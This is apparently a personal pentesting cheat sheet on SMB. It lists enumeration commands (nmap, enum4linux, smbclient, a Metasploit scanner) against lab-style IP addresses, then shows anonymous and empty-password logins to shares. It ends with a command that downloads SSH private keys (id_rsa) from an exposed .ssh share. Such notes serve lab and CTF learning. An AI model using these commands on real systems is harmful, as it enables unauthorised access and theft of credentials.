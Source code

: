 ```yaml
---
description: Find and exploit SMB vulnerabilities
---
```


# SMB Pentesting

## Enumeration

### Using nmap

```awk
sudo nmap -sC -sV 10.10.170.245
```

### Using enum4linux

```awk
enum4linux -a 10.10.170.245
```

### Using smbclient

#### List all available shares

```awk
smbclient -N -L \\\\10.129.95.187\\
```

### Using metasploit

```
use auxiliary/scanner/smb/smb_version
```





## Exploitation

The smbclient utility and impacket library are two good utilities to exploit SMB vulnerability.

### Using smbclient

Let's say we want to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port

```
smbclient //10.10.10.2/secret -U "suit" -p 445
```

### Anonymous login with empty passwords

#### In general shares

```
smbclient //10.10.96.221/profiles -U ''
smbclient //10.10.96.221/profiles -U 'Anonymous'
```

### Navigating through SMB

#### List all available files

```
smb: \> ls
smb: \> dir
```

#### Get multiple or single files (mget command)

```
smb: \.ssh\> mget id_rsa*
```
